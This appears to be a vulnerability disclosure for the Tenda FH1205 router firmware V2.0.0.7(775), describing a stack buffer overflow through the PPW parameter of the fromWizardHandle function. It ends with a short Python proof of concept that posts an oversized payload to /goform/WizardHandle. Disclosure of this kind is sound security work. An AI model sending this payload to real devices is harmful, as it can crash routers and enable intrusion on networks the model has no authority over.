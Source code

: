 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability located in the `fromWizardHandle` function. This function accepts the `WANT`and `WANS` parameter from a POST request. Within `case 2`, this function accepts the `PPW` parameter from a POST request, which is assigned to `decodePwd(pppoepwd, decode_pwd);`. However, since the user has control over the input of `PPW`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `PPW` can exceed the capacity of the `decode_pwd` array, thus triggering this security vulnerability.

![image-20240409144436622](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144436622.png)

![image-20240409144543183](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144543183.png)

![image-20240409144601905](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144601905.png)

![image-20240409144618132](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409144618132.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WizardHandle"
payload = b"a"*1000

data = {"WANS":"0","WANT":"2","PPW": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102339559](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102339559.png)
